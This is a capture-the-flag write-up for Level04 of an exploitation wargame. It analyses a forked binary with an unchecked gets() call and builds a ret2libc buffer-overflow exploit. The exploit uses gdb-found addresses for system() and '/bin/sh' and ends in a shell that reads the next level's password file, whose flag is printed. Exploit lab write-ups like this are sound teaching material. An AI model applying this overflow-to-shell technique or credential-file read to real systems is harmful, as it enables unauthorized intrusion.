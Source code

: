 # **Level04**

In this level, the program asks us to provide shellcode.

```nasm
$ ./level04
Give me some shellcode, k
hello
```

## **Binary Analysis**

The program forks into a **parent** and **child** process:

- **Parent Process:**
    - Monitors the child using `wait()`.
    - Detects `exec()` calls and terminates the child if triggered.
- **Child Process:**
    - Uses `ptrace()` to allow the parent process to trace this process
    - Reads user input with `gets()` (**buffer overflow vulnerability**).

The parent ensures execution control, while the child has a critical vulnerability in `gets()`.

```nasm
 	; Fork process
   0x080486d6: call   fork@plt
   0x080486db: mov    %eax,0xac(%esp)    ; Store pid

  ; Buffer setup
   0x080486d0: sub    $0xb0,%esp         ; Allocate 176 bytes
   0x080486e2: lea    0x20(%esp),%ebx    ; Buffer at esp+32
   0x080486eb: mov    $0x20,%edx         ; Size 32 bytes
   
	  ; Child process (pid == 0)
		0x08048713: movl   $0x1,0x4(%esp)    ; PR_SET_PDEATHSIG
		0x08048722: call   prctl@plt         ; Set death signal
		0x08048746: call   ptrace@plt        ; Anti-debugging
		
		; Parent process
		0x080487dc: call   ptrace@plt        ; Monitor child
		0x080487e8: cmpl   $0xb,0xa8(%esp)   ; Check for SIGTRAP
		
		; In child process
		0x0804875b: mov    %eax,(%esp)       ; Buffer address
		0x0804875e: call   gets@plt          ; Vulnerable gets call
```


## **Vulnerability**

The `gets()` function doesn't check the input size, and the buffer is only 32 bytes. This lets us write past the buffer and overwrite the return address, which can be exploited. Also, there is a vulnerability in the libc functions that can be used.

```c
gdb) info functions
[...]
0x08048530  __libc_start_main
0x08048530  __libc_start_main@plt
[...]
(gdb)
```

## **Exploit**

We need to retrieve the address of the `system` function and the address of the `"/bin/sh"` string to spawn a shell.

```c
(gdb) b *main
Breakpoint 1 at 0x80486c8
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

Next, we need to find the offset of the return address by analyzing what happens when we input various lengths.

```python
    # 0xb0 
    python -c 'print "A"*176' | ./level04
    ...

    python -c 'print "A"*172' | ./level04
    ...
    [...]

    python -c 'print "A"*156' | ./level04
    Give me some shellcode, k

    # 152 bytes: Program behavior changes
    level04@OverRide:~$ python -c 'print "A"*152' | ./level04
    Give me some shellcode, k
    child is exiting...
```

Now we can create the proper exploit:

```python
# Addresses
system = 0xf7e6aed0    # system() address
binsh = 0xf7f897ec     # "/bin/sh" string address

# Craft payload
payload = "A" * 156     # Exact padding to reach return address
payload += system       # system() address
payload += "JUNK"       # 4 bytes fake return
payload += binsh        # "/bin/sh" address
```

Final exploit:

```python
(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

Execute the exploit:

```python
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

```

## Flag

```python
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```